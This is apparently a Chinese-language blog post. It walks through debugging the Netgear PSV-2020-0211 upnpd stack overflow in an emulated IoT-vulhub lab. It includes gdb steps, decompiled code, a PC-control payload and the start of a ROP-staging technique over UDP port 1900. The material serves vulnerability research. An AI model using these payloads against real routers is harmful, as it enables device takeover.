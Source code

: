 ```yaml
---
title:  "Netgear"
mathjax: true
layout: post
---
```


今天开始，我们调试一些IOT设备的漏洞。

对于IOT设备的漏洞而言，最难的部分不是漏洞本身，而是漏洞环境的搭建。
所以当我在搜索的时候，找到了[这样的一个项目](https://github.com/firmianay/IoT-vulhub)
这个项目非常的有意思，提供了一些漏洞的环境搭建方法和基本工具的Dockerfile。

通过这个项目能够搭建出漏洞调试环境。

# Install
首先在baseImage当中提供了对应工具的Dockerfile，
可以自己build对应的Dockerfile上传到自己的账号上

# Netgear
这次要调试的是Netgear的`PSV-2020-0211`漏洞。
直接cd到对应的目录当中就能够找到对应的`docker-compose.yml`文件。不过它这个yml文件需要修改一下，因为作者自己的docker是没有对公众开放的。
这里用到的`FROM firmianay/qemu-system:armhf`是不能直接pull下来的。
所以要自己在baseImage文件夹下面一个个build一下，
从ubuntu16.04开始build。

需要注意的是在qemu-system构建的过程中首先要下载好qemu的镜像文件，
image文件夹下有download.sh脚本，里面的三个文件需要全部下载下来。

接下来就直接build，并启动环境了。
```
docker-compose -f docker-compose-system.yml build
docker-compose -f docker-compose-system.yml up
```
然后你可以在当中看到启动的log
![图片.png](https://i.loli.net/2021/02/07/UiS4IyDvRqFWf5Y.png)

开启另一个终端获得一个bash
```
docker exec -it netgear-system /bin/bash
```

## Debug
启动了之后会在qemu启动的armhf主机上开启5000端口
，同时会开启udp的1900端口。
![image.png](https://i.loli.net/2021/02/08/dDRtslipCja5zMN.png)

通过gdb挂载进程进行调试，首先自己交叉编译一个armhf版本的gdb出来，或者上网找一个[别人编译好的版本](https://github.com/stayliv3/gdb-static-cross/blob/master/prebuilt/gdbserver-7.7.1-armhf-eabi5-v1-sysv)。

根据IOT-vulnhub中的文档，将所需要的工具放到`system-emu/tools/`文件夹当中，就能在`squashfs-root/tools`当中看到。  
所以将下载后的gdbserver放进去。

进入到squashfs-root文件夹下面，启动`/bin/sh`程序
```
root@debian-armhf:~/squashfs-root# chroot . /bin/sh


BusyBox v1.7.2 (2018-12-13 12:34:27 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```
用gdb-server，attach到进程上
```
# ./gdbserver-7.7.1-armhf-eabi5-v1-sysv --attach :1234 $(ps | grep upnpd | grep -v grep | awk '{print $1}')
Attached; pid = 2473
Listening on port 1234
```
debian-armhf当中调用gdb attach上去
```
gdb-multiarch
set architecture arm
target remote 192.168.2.2:1234
layout regs
```
因为使用gef的时候出现了各种各样的问题，即使用了`gef-remote`命令还是有问题。最后选择了原生的gdb进行调试，有一点不适应的地方就是不能上下键切换历史命令了。

将程序拖入ida当中

找到漏洞函数`sub_1D020()`，发现在这个位置调用了`recvfrom`函数，从socket当中获取0x1fff字节长度的数据。  
随后又进入到`sub_25E04()`函数中执行。
![image.png](https://i.loli.net/2021/02/08/j3i8QHWuzh1e64G.png)
在`sub_25E04()`函数中直接调用了strcpy，把原本最大长度是0x1fff字节的数据复制到了栈上的v39里面，造成了栈溢出。  
v39离bp只有0x634字节的距离，所以后面可以直接覆盖掉bp和ret地址

对于作者提供的poc，需要修改其中的v41指针指向一个合法内存，否则在strcpy之后。
```
  char v39[12]; // [sp+24h] [bp-634h] BYREF
  int s[10]; // [sp+600h] [bp-58h] BYREF
  char *v41; // [sp+628h] [bp-30h] BYREF
  __int16 v42; // [sp+62Ch] [bp-2Ch] BYREF

  v42 = ' ';
  srpintf(3, "%s(%d):\n", "ssdp_http_method_check", 203);
  if ( dword_93AE0 == 1 )
    return 0;
  v41 = v39;
  strcpy(v39, a1);
  v7 = find_str((const char **)&v41, (const char *)&v42);
  v8 = v7;
  if ( !v7 )
```
使用v41指针时会由于指向非法内存挂掉。

在gdb当中`info proc mappings`拿到libc的地址就行。替换掉poc.py当中的payload
```
payload = (
    0x604 * b'a' +  # dummy
    p32(0x76da9010) +  # v41
    (0x634 - 0x604 - 8) * b'a' +  # dummy
    p32(0x43434343)  # LR
)
```
即可控制PC。

## Exploit
因为出现问题的是strcpy函数，所以像`\x00`这种字节是没办法输入的，否则就直接截断了。

对于这种问题，可以将ROP提前布置到内存环境中，在构造输入时，在payload前面加上`\x00`截断。
```
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(('192.168.2.2', 1900))
s.send(b'\x00' + b'A' * 0x1ff0)
s.send(b'\x00' + b'B' * 0x633)
s.close()
```
由于是调用的recvfrom从socket中读取的数据，这样执行了之后，会将读取的数据存入内存当中。  
之后如果这段内存没有初始化的话，后面第二次recv的时候，这块内存还会存在。

对于上面的payload，我们在gdb当中进行调试，首先在strcpy的地方下一个断点。  
然后看看两次send之后内存当中的数据情况。






